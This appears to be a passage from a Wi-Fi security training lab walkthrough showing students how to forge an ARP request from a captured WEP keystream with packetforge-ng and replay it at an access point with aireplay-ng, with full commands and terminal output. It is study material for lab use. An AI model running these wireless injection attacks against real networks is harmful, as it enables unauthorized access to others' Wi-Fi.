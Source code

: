 Code: shell

```shell
tcpdump -s 0 -n -e -r replay_src-1127-122516.cap 
```

```
wifi@WiFiIntro:~$ tcpdump -s 0 -n -e -r replay_src-1127-122516.cap 

reading from file replay_src-1127-122516.cap, link-type IEEE802_11 (802.11), snapshot length 65535
12:25:16.935440 BSSID:b2:a6:3d:eb:23:a3 SA:86:32:38:c0:a9:89 DA:b2:a6:3d:eb:23:a3 Data IV:bc6993
```

Students will proceed to forge an ARP request with `packetforge-ng` using the previously captured keystream as a `.xor` file, specifying the access point's MAC address and the MAC address of the connected client while choosing the `255.255.255.255` IP addresses for both, designating them as broadcast addresses:

Code: shell

```shell
packetforge-ng -0 -a B2:A6:3D:EB:23:A3 -h 86:32:38:C0:A9:89 -k 255.255.255.255 -l 255.255.255.255 -y fragment-1127-122519.xor -w forgedarp.cap
```

```
wifi@WiFiIntro:~$ packetforge-ng -0 -a B2:A6:3D:EB:23:A3 -h 86:32:38:C0:A9:89 -k 255.255.255.255 -l 255.255.255.255 -y fragment-1127-122519.xor -w forgedarp.cap

Wrote packet to: forgedarp.cap
```

Next, students will use `aireplay-ng` in an interactive replay mode (`-2`) while specifying the forged packet and the MAC address of the connected client and use this packet:

Code: shell

```shell
sudo aireplay-ng -2 -r forgedarp.cap -h 86:32:38:C0:A9:89 wlan0mon
y
```

```
wifi@WiFiIntro:~$ sudo aireplay-ng -2 -r forgedarp.cap -h 86:32:38:C0:A9:89 wlan0mon

The interface MAC (02:00:00:00:01:00) doesn't match the specified MAC (-h).
	ifconfig wlan0mon hw ether 86:32:38:C0:A9:89

        Size: 68, FromDS: 0, ToDS: 1 (WEP)

              BSSID  =  B2:A6:3D:EB:23:A3
          Dest. MAC  =  FF:FF:FF:FF:FF:FF
         Source MAC  =  86:32:38:C0:A9:89

        0x0000:  0841 0201 b2a6 3deb 23a3 8632 38c0 a989  .A....=.#..28...
        0x0010:  ffff ffff ffff 8001 e872 0a00 ab45 1a47  .........r...E.G
        0x0020:  89d6 df94 8061 b1e4 a984 3f2c a4eb 0f46  .....a....?,...F
        0x0030:  d2c8 f9e7 e1cd 6b2d a61c ef3a 877d e02c  ......k-...:.}.,
        0x0040:  ad35 95ff                                .5..

Use this packet ? y

Saving chosen packet in replay_src-1127-122637.cap
You should also start airodump-ng to capture replies.

Sent 150000 packets...(499 pps)
```
